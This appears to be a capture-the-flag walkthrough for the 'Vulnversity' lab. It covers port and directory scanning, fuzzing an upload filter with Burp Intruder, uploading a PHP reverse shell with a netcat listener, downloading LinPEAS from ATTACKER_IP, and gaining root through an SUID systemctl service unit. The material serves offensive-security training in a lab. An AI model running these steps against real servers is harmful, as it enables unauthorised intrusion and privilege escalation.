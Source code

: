 # Vulnversity
## Reconnaissance

| Nmap Flag | Description
| --- | ---
| `-sV` | Attempt to determine version of running services.
| `-p <x>` or `-p-` | Port scan for port <x> or scan all ports.
| `-Pn` | Disable host discovery and scan for open ports.
| `-A` | Enable OS and version detection, executes in-built scripts for further examination.
| `-sC` | Scan with default Nmap scripts.
| `-v` | Verbose mode.
| `-sU` | UDP port scan.
| `-sS` | TCP SYN port scan.

## Locating Directories Using [Gobuster](https://github.com/OJ/gobuster)
* Brute forces URIs (directories and files), DNS subdomains, and virtual host names.
* Install Gobuster on Kali.
```
sudo apt-get install gobuster
```
* Requires wordlist to identify if public directory is available.
* Kali `/usr/share/wordlists` folder contains many wordlists.

| Gobuster Flag | Description
| --- | ---
| `dir` | Use directory/file bruteforcing.
| `-e` | Prints full URLs to the console.
| `-u` | Target URL.
| `-w` | Path to wordlist.
| `-U` and `-P` | Username and password for basic authentication.
| `-p <x>` | Proxy to use for requests.
| `-c <http cookies>` | Specify cookie for simulatin authentication.

## Compromise the Webserver
* [Download reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).
* Upload to `http://TARGET_IP:3333/internal/`.
  * PHP file extensions blocked by upload form.
* Fuzz upload form using BurpSuite to identify which extensions are not blocked.
### Use the Intruder to automate customised attacks.
#### 1. Make a wordlist of extensions.
```
printf "php\nphp3\nphp4\nphp5\nphtml" >  phpext.txt
```
#### 2. Intercept browser traffic with BurpSuite.
#### 3. Send captured request to Intruder.
* "Sniper" attack type.
* "Payload Positions" > find the filename > prefix and suffix `§` to extension.
* "Payloads" > "Payload settings" > "Load" > phptext.txt.
   * `.phtml` extensions allowed by upload form.
#### 4. Start the attack.
* Edit `php-reverse-shell.php`.
   * Change IP to attacking machine.
   * Rename file to `php-reverse-shell.phtml`.
* Reverse shell is called on target.
* Forces a connection to listening attacker.
```
mv php-reverse-shell.php php-reverse-shell.phtml
```
#### 5. Listen to incoming connections using netcat.
```
nc -lvnp 1234
```
#### 6. Upload shell to webserver.
#### 7. Execute payload.
* Navigate to `http://TARGET_IP:3333/internal/uploads/php-reverse-shell.phtml`
#### 8. Connection established on Netcat session.
```
Connection from 10.10.240.196 33302 received!
Linux vulnuniversity 4.4.0-142-generic #168-Ubuntu SMP Wed Jan 16 21:00:45 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 10:00:44 up  1:34,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
## Privilege Escalation
* Linux SUID (set owner userId upon execution) is special type of file permission.
* Gives temporary permissions to a user to run binary with permission of file owner.
  * `/usr/bin/passwd` binary file to change user password has SUID bit set.
  * User needs to be able to write to shadowers file but only root has access by default.
    * User account has root privileges to make the right changes.
```
4  2  1  4  2  1  4  2  1
r  w  x  r  w  x  r  w  x
SUID  V     V     V
r  w  s  r  w  x  r  w  x
-------
 User
```
* Upgrade to TTY shell using Python.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
* Search for all SUID files.
```
find / -user root -perm -4000 -print 2>/dev/null
```
  * `-user root` is file owner.
  * `-perm 4000` specifies permissions.
* Use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) scripts to identify SUID vulnerabilties.
```
mkdir /home/kali/linpeas
cd /home/kali/linpeas
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```
* Serve payload through python webserver.
```
python3 -m http.server
```
* Download LinPEAS to target.
* Ensure that target directory has write permissions (`/tmp`).
* Write LinPeas output to txt file.
```
wget http://ATTACKER_IP:8000/linpeas.sh
chmod +c ./linpeas.txt
./linpeas.sh -a > linpeas.txt
```
* Read SUID part of linpeas.txt file.
```
grep -A 50 "SUID - Check easy privesc, exploits and write perms" ./linpeas.txt
```
   * `-A 50` means list 50 lines after the search term "SUID - Check easy privesc, exploits and write perms".
* LinPEAS shows /bin/systemctl highlighted in red/yellow signifying a 95% privilege escalation vector.
* Browse to [GTFOBins](https://gtfobins.github.io)
  * Select `SUID`'
  * `CTRL+F` and search for `systemctl`.
```
If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run sh -p, omit the -p argument on systems like Debian (<= Stretch) that allow the default sh shell to run with SUID privileges.

// Change to /tmp as this directory is writable
cd /tmp
// Create local SUID copy of bash binary and run it to maintain elevated (root) privileges.
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
Created symlink from /etc/systemd/system/tmp.PzHSya3VD0.service to /tmp/tmp.PzHSya3VD0.service.
/bin/systemctl enable --now $TF
Created symlink from /etc/systemd/system/multi-user.target.wants/tmp.X6k1yvp1ii.service to /tmp/tmp.X6k1yvp1ii.service. 
```
* `cat /tmp/output` to read file that contains contents of restricted `/root/root.txt` file.
